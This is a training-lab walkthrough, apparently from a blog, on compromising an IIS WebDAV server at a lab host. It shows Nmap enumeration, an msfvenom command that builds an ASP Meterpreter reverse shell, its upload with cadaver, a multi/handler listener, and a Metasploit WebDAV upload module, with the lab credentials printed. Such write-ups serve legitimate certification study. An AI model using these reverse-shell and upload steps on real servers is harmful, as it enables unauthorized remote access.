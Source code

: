 ```yaml
---
title: "eJPT - Windows IIS Server WebDav Metasplit Walkthrough & Insights"
date: 2025-03-31 00:00:00 - 0500
categories: [ eJPT , Lab , Vulnerability Assessment]
tags: [Footprinting, Easy]


---
```


---

## Lab Environment

In this lab environment, you will be provided with GUI access to a Kali machine. The target machine will be accessible at **demo.ine.local**.

**Objective:** Exploit the WebDAV service and retrieve the flag!

**The following username and password may be used to access the service:**

**Credentials:**
```
Username: bob
Passowrd: password_123321
```
# Tools

- Metasploit
- DAVTest
- Cadaver

Let’s with the lab

---

### Video Walkthrough's

{% include embed/youtube.html id='49SaqHOj_Pc' %}


### Service Enumeration using Nmap:

Started with Nmap to discovery the services that are running on the target

command

```bash
nmap -sV -sC demo.ine.local
```

 Breakdown:

- `-sV`: Enables version detection, which identifies the software version running on open ports.
- `-sC`: Runs default scripts (`default` category from NSE - Nmap Scripting Engine).
- `demo.ine.local`: The target domain or hostname.
![alt text](</assets/img/Pasted image 20250331121134.png>)

![alt text](</assets/img/Pasted image 20250331121152.png>)
Narrowed the Nmap scan to the specific port then also used a script that extract some more information form the specific port and it’s services.

```bash
nmap -sV -sC -p 80 --script=http-enum demo.ine.local
```
![alt text](</assets/img/Pasted image 20250331121229.png>)

![alt text](</assets/img/Pasted image 20250331121308.png>)



### Creating a asp shell using msfconsole

![alt text](</assets/img/Pasted image 20250331121345.png>)

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT=4444 -f asp > shell.asp
```

**Breakdown:**

- `msfvenom` → A payload generator in **Metasploit**, used to create shellcodes, backdoors, and exploits.
- `-p windows/meterpreter/reverse_tcp` → Specifies the **payload**:
    - `windows/meterpreter/reverse_tcp` → A **Meterpreter** reverse shell payload for Windows.
    - `reverse_tcp` → This means the target machine will **connect back** to the attacker's machine (LHOST).
- `LHOST=<YOUR_IP>` → The attacker's **IP address** (listener machine where the reverse shell will connect).
- `LPORT=4444` → The **port number** the shell will connect back to (default: `4444`).
- `-f asp` → Specifies the **format** of the payload (`asp` for an Active Server Page web shell).
- `> shell.asp` → Saves the generated payload as **`shell.asp`** (which can be uploaded to a vulnerable web server).
### Uploading asp file using cadaver

![alt text](</assets/img/Pasted image 20250331121400.png>)


```bash
cadaver <http://demo.ine.local/webdav>
```

**Breakdown:**
- `cadaver` → A **command-line WebDAV client** used to interact with Web Distributed Authoring and Versioning (**WebDAV**) servers.
- `http://demo.ine.local/webdav` → The **URL of the WebDAV server** you want to connect to.
Start the reverse handler for it

#### **Common Commands in Cadaver (Once Connected)**

After connecting, you can use the following commands:

|Command|Description|
|---|---|
|`ls`|List files in the current directory|
|`cd <dir>`|Change directory|
|`put <file>`|Upload a file to the server|
|`get <file>`|Download a file from the server|
|`delete <file>`|Remove a file from the server|
|`mkdir <dir>`|Create a directory on the WebDAV server|
|`rmdir <dir>`|Remove a directory|
|`exit` or `quit`|Close the connection|

Then run the asp file. and we got the access

![alt text](</assets/img/Pasted image 20250331121445.png>)

```bash
service postgresql start && msfconsole 
use multi/handler/
set payload windows/meterpreter/reverse_tcp
set lhost
set lport 
run
```
**Breakdown:**

- `service postgresql start` → Starts the **PostgreSQL database**, which Metasploit uses to store exploits and sessions.
- `&&` → Ensures that **Metasploit Framework (`msfconsole`)** starts **only if** PostgreSQL starts successfully.
- `msfconsole` → Launches the **Metasploit Framework Console** for running exploits and managing sessions.
- - `use multi/handler` → Loads the **multi-handler** module, which is used to receive incoming connections from exploited machines.
- `/` at the end is unnecessary; it should just be `use multi/handler`.
- - `set payload windows/meterpreter/reverse_tcp` → Configures the listener to handle *Windows Meterpreter reverse shell connections**.
- `reverse_tcp` → The target system will **connect back** to the attacker's system.
- - `set LHOST <YOUR_IP>` → Specifies the **attacker's IP address** (where the reverse shell will connect).
- `set LPORT <YOUR_PORT>` → Defines the **port number** to listen for incoming connections (default: `4444`).
- - Starts the listener to **wait for incoming connections** from the target machine.
- Once the target **executes the payload**, the attacker **gains a Meterpreter session**.

![alt text](</assets/img/Pasted image 20250331121502.png>)
---

## Here the version 2 for the same lab!

This version of Metasploit leverages msfconsole modules to automate and simplify the exploitation process, making it much easier for the end user (attacker).
- **Category**: Exploit Module
- **Purpose**: Uploads a malicious ASP shell to an IIS WebDAV-enabled server, allowing remote command execution.

### Starting the msfconsole

```bash
service postgresql start && msfconsole
```

```bash
serach iis upload
use exploit/windows/iis/iis_webdav_upload_asp
set httpusername 
set httppassword
set rhost
set path
run
```

- **Search for IIS Upload Exploits** – Finds available Metasploit modules for exploiting IIS file uploads.
- **Select the IIS WebDAV Upload Exploit** – Loads an exploit that allows uploading malicious ASP files to a WebDAV-enabled server.
- **Set Authentication Credentials (If Required)** – Provides login details if the server requires authentication.
- **Define the Target Host** – Specifies the IIS server’s IP address.
- **Set the Upload Path** – Chooses the directory where the file will be uploaded.
- **Execute the Exploit** – Uploads the ASP shell and attempts to gain remote code execution on the server.

